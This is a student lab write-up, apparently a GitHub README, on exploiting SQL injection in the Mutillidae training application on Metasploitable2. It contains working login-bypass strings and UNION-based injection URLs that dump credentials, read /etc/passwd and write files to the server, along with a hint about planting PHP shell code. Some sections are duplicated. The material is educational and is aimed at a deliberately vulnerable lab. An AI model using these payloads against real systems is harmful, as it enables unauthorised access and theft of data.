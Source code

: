 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/fcff12b8-2fac-4c61-b1bc-e92d5bb0be95)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/b76879fa-4a43-4d8f-b16f-4f2f31159979)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/c1280ee0-adad-409e-bc71-7d79e99df9a1)
Click on the menu Login/Register and register for an account
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/342afadd-8209-41ee-b110-955d18d1f9dd)
Click on the link “Please register here”
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e44d8f2a-58a7-41cd-aa87-44104c4f9b6c)
Click on “Create Account” to display the following page:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/4b4feb62-6691-4265-bb47-c639720bb930)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/ade3a828-92d0-4f6d-94e4-00fad6808a6b)
Click “Login”. The logged in page will show as below:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/5950938d-b720-410e-ba3f-eef14b065fdc)
##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/eb69f220-af20-4bd3-aac9-45731f6623ba)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/58ea7d70-1a83-4ef1-9201-df9365199229)
Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/7dec9c8e-70e1-49b0-9997-748d45f81836)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/c3a3ca3d-6b73-4fac-aa62-7aa952d8cfa2)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/a7ea6b3c-10d0-4bb9-9985-934d2cf2b624)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e6660171-7b81-40b3-8722-a22710700922)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/ccb96ae8-0976-43f0-bf12-442b0d1614e5)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/43c86048-1c5e-464b-a19c-2c2a2ff3d350)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/4d9bd9f4-e670-4a84-9b1b-2083b9177f8b)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e09c7e21-04dc-44a0-830e-ee3050ef1853)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/40973f2a-4e71-4e86-8a77-bc924b923e38)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/29d84c00-8fca-47f3-9cbf-6be038749af0)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e44c1e18-013b-4df5-be49-721d0d54aea4)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/9eb7e918-d3ce-4f18-9e1b-97fdbeb3fbde)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/c4863a6c-a2cb-4172-86a9-5680bbf7a05c)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e88fc598-552d-4452-b166-74c6de989bdf)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/397dcc26-1e50-4a3d-a29c-925f1708255d)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/4b2bc819-ead6-46e5-a2af-f0ad5f8c06b2)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/af021188-9259-429b-8af2-e1e710eb6b45)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/20d94dd5-486d-4b9d-ab2a-14f77c5f6a0c)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/7a368f02-71ae-47bb-ae84-c12cfe7f624c)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/d46483e0-2a60-43d3-81fe-968d19b6677d)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/14c40630-fcd7-4006-9e5b-ffc1c5317bbd)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

































## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
